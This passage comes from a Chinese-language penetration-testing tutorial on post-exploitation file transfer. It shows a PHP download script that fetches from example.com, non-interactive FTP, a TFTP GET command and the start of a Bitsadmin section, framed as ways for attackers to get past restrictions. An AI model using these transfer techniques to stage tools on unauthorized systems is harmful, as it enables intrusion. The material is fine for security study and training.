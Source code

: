 执行脚本文件是这样

```
root@kali:~# ruby test.rb

```

### PHP File Download

PHP作为一种服务端脚本，也可以实现下载文件这种功能。

```
<?php
        $data = @file("http://example.com/file");
        $lf = "local_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>

```

执行脚本文件是这样

```
root@kali:~# php test.php

```

下面的上传文件的方法，可能需要更多得步骤，但是有些情况下却可以绕过去多限制。

### FTP File Download

一般情况下攻击者使用FTP上传文件需要很多交互的步骤，下面这个 bash脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```
ftp 127.0.0.1
username
password
get file
exit

```

### TFTP File Download

在Windows Vista以及以后的版本中默认有FTP，可以使用以下命令运行：

```
tftp -i host GET C:\%homepath%\file location_of_file_on_tftp_server

```

### Bitsadmin File Download

Bitsadmin是Windows命令行工具，用户可以使用它来创建下载或上传的任务。
